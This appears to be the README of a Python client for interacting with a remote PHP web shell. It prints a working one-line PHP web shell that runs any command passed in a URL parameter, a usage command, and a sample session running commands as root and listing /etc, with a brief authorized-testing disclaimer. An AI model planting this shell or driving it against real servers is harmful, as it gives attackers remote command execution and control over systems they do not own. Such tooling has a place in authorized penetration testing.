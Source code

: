 # WebShellClient

## Overview
This script acts as a client for interacting with a simple web shell, which must be hosted on a remote server. The web shell should be implemented as a PHP script, such as:

```php
<?php system($_GET['cmd']); ?>
```

This PHP script allows the execution of system commands via an HTTP request by passing the command as a `cmd` parameter.

## How It Works
The WebShell Client script:
- Accepts the base URL of the web shell as an argument (must end with `?cmd=`).
- Establishes an interactive shell-like experience.
- Supports `cd` commands to simulate directory navigation.
- Stores command history for convenience.
- Provides colorized terminal output.

## Usage
To run the script, execute:

```sh
python3 web_shell.py http://example.com/shell.php?cmd=
```

### Features:
- Interactive shell-like prompt (`user@webshell:path$`).
- Supports navigation with `cd` command.
- Maintains session history.
- Displays output in color.
- Gracefully handles exit with `exit` or `quit`.

## Security Warning
This script interacts with a web shell that executes system commands on the remote server. **Only use this for authorized testing purposes in controlled environments.** Exposing such a shell on the internet poses extreme security risks.

## Example Interaction
```
user@webshell:/var/www$ ls -la
(total 12)
-rw-r--r-- 1 root root  21 Jan 29 15:00 index.php
-rw-r--r-- 1 root root  29 Jan 29 15:02 shell.php

user@webshell:/var/www$ whoami
root

user@webshell:/var/www$ cd /etc

user@webshell:/etc$ ls
passwd   group   shadow
```

